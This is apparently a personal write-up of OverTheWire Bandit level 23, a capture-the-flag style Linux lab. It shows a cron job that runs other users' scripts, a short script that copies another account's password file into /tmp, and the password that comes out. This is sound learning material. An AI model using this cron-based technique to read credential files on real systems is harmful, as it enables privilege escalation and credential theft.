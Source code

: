 # Level 23

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Solution

```bash
$ ssh bandit23@bandit.labs.overthewire.org -p 2220
$ bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
$ bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
$ bandit23@bandit:~$ mkdir /tmp/scripted/
$ bandit23@bandit:~$ cd /tmp/script
$ bandit23@bandit:~$ nano myscript.sh
```

I then needed to create a script as per the hint. Because I know the password exists at `/etc/bandit_pass/bandit24` and that cron has the permission to run the script, I can just have it printed to a file in the `/tmp/scripted/` directory:

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/scripted/password.txt
```

Then I just need to change the permissions on the file and place it within `/var/spool/bandit24/`:

```bash
$ bandit23@bandit:/tmp/scripted$ chmod 777 myscript.sh
$ bandit23@bandit:/tmp/scripted$ cp myscript.sh /var/spool/bandit24/
$ bandit23@bandit:/tmp/scripted$ ls -la
total 776
drwxr-sr-x    2 bandit23 root   4096 Aug  3 19:18 .
drwxrws-wt 4052 root     root 782336 Aug  3 19:19 ..
-rwxrwxrwx    1 bandit23 root     74 Aug  3 19:16 myscript.sh
$ bandit23@bandit:/tmp/scripted$ chmod 777 ../scripted
```

Then a case of watching the directory:

```bash
$ bandit23@bandit:/tmp/scripted$ watch ls -la
```

Eventually a password will be presented to our directory:

```bash
$ bandit23@bandit:/tmp/scripted$ cat password.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
